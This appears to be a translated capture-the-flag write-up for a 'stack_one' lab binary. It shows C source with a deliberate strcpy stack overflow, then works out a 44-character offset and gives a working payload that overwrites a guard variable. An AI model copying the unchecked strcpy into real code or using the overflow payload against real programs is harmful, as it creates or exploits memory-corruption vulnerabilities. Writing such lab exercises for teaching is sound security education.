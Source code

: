Here's your write-up translated into English:

# Code Analysis:

## Code Execution:

```bash
./stack_one                                        
stack_one: You need to provide an argument

./stack_one test                                   
Try again, you have 0x00000000
```

At first glance, the binary retrieves the user input through an execution argument.

## Source Code:

```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv)
{
  volatile int modified;
  char buffer[32];

  if(argc == 1) {
      errx(1, "You need to provide an argument\n");
  }

  modified = 0;
  strcpy(buffer, argv[1]);

  if(modified == 0x61626364) {
      printf("Challenge succeeded!\n");
  } else {
      printf("Try again, you have 0x%08x\n", modified);
  }
}
```

1. Execute with a program argument, or it fails.
2. The `modified` variable is initialized to 0.
3. The `buffer` variable of 32 bytes is initialized to the value of the user's input argument.
4. If the `modified` variable has the value `0x61626364`, we succeed in the challenge.

# Exploitation:

## How?

To change the value of `modified` to `0x61626364`, we need to:
- Find from how many argument characters we can reach `modified`.
- Find what equals `0x61626364`.

## Demonstration:

### Finding the Offset

We get something other than `0x00000000` starting from the 45th character:
```bash
./stack_one $(python -c 'print("a" * 44)')         
Try again, you have 0x00000000

./stack_one $(python -c 'print("a" * 45)')
Try again, you have 0x00000061
```

The offset is therefore 44 characters.

> We also notice that the character is added from the right and not from the left of the hexadecimal, it's because of the Little Endian reading.
### Finding `0x61626364`

Thanks to the previous result, we know that `a` equals `61` in hexadecimal, which means that `0x61626364` equals `abcd`. However, the byte order is Little Endian, so we need to provide it in reverse, which is: `dcba`.

### Payload:

```bash
./stack_one $(python -c 'print("a" * 44 + "dcba")')

Challenge succeeded!
```
